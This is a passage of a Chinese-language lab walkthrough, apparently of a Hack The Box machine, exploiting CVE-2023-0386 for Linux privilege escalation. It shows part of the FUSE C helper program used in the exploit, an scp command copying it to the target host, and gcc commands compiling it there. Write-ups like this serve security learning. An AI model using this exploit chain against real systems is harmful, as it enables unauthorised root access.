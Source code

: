 ```c
    } else {
        size = 0;
    }

    return size;
}

static int ioctl_callback(const char *p, int cmd, void *arg,
                          struct fuse_file_info *fi, unsigned int flags, void *data)
{
    puts("[+] ioctl callback");
    printf("path %s\n", p);
    printf("cmd 0x%x\n", cmd);
    return 0;
}

static struct fuse_operations hellofs_oper = {//只实现上述四个回调函数已经够了
    .getattr = hellofs_getattr,
    .readdir = hellofs_readdir,
    .open = hellofs_open,
    .read = hellofs_read,
    .ioctl = ioctl_callback
};

int main(int argc, char *argv[])
{
    return fuse_main(argc, argv, &hellofs_oper, NULL);//注册回调函数
}
```

我在他的基础上添加了一个`ioctl_callback`函数，以供后面touch文件使用，不然会报错函数未实施。

通过scp传送文件到靶机：

```shell
scp ~/Desktop/CVE-2023-0386/fuse.c admin@10.10.11.221:/tmp/root
```

![image-20230628144623425](image/image-20230628144623425.png)

编译：

```shell
gcc fuse.c -o efuse -D_FILE_OFFSET_BITS=64 -lfuse
```

```shell
admin@2million:/tmp/root$ gcc fuse.c -o efuse -D_FILE_OFFSET_BITS=64 -lfuse
admin@2million:/tmp/root$ ls
efuse  fuse  fuse.c  overlay  upper  workdir
```
